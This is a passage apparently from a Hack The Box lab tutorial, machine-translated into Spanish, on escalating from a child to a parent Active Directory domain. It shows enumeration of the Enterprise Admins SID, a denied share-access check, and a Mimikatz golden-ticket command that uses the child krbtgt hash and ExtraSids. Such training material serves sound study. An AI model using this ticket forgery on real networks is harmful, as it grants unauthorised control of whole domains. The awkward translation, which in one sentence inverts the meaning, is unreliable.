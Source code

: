   Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - Desde Windows

```powershell-session
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid                                    
-----------------                                       ---------                                    
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```

En este punto, hemos reunido los siguientes puntos de datos:

- El hash Krbtgt para el dominio infantil:`9d765b482771505cbe97411065964d5f`
- El sid para el dominio infantil:`S-1-5-21-2806153819-209893948-922872689`
- El nombre de un usuario objetivo en el dominio infantil (¡no necesita existir para crear nuestro boleto dorado!): Elegiremos un usuario falso:`hacker`
- El FQDN del dominio infantil:`LOGISTICS.INLANEFREIGHT.LOCAL`
- El SID del grupo de administradores empresariales del dominio raíz:`S-1-5-21-3842939050-3880317879-2865463114-519`

Antes del ataque, no podemos confirmar que no hay acceso al sistema de archivos del DC en el dominio principal.

#### Uso de LS para confirmar sin acceso

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - Desde Windows

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

Usando Mimikatz y los datos enumerados anteriormente, podemos crear un ticket dorado para acceder a todos los recursos dentro del dominio principal.

#### Creando un boleto dorado con Mimikatz

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - Desde Windows

```powershell-session
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
```